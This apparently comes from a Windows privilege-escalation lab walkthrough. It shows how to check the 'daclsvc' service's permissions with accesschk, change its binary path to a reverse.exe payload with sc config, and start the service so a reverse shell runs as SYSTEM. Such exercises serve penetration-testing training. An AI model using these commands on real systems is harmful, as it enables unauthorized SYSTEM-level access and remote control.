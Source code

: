 
Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

`sc qc daclsvc`

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`